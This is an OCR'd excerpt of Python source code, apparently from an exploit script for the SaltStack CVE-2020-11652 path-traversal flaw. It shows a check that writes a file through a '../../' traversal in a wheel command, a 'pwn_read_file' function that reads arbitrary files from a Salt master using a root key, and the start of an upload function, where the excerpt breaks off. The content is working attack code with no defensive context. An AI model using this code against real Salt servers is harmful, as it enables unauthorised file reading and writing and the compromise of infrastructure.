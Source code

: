     def check_CVE_2020_11652_write2(debug, channel, root_key):
      print("[+] Checking if vulnerable to CVE-2020-11652 (write2)... ", end='')
      sys.stdout.flush()

      # try read file
      msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'config.update_config',
        'file_name': '../../../../../../../../tmp/salt_CVE_2020_11652',
        'yaml_contents': 'evil',
        'saltenv': 'base',
      }

      try:
        rets = channel.send(msg, timeout=3)
      except salt.exceptions.SaltReqTimeoutError:
        print("TIMEOUT")
      except:
        print("ERROR")
        raise
      else:
        if debug:
          print()
          print(rets)
        if rets['data']['return'].startswith('Wrote'):
          try:
            os.remove('/tmp/salt_CVE_2020_11652.conf')
          except OSError:
            print("Maybe?")
          else:
            print("YES")
        else:
          print("NO")

    def pwn_read_file(channel, root_key, path, master_ip):
        print("[+] Attemping to read {} from {}".format(path, master_ip))
        sys.stdout.flush()

        msg = {
            'key': root_key,
            'cmd': 'wheel',
            'fun': 'file_roots.read',
            'path': path,
            'saltenv': 'base',
        }

        rets = channel.send(msg, timeout=3)
        print(rets['data']['return'][0][path])

    def pwn_upload_file(channel, root_key, src, dest, master_ip):
        print("[+] Attemping to upload {} to {} on {}".format(src, dest, master_ip))
        sys.stdout.flush()
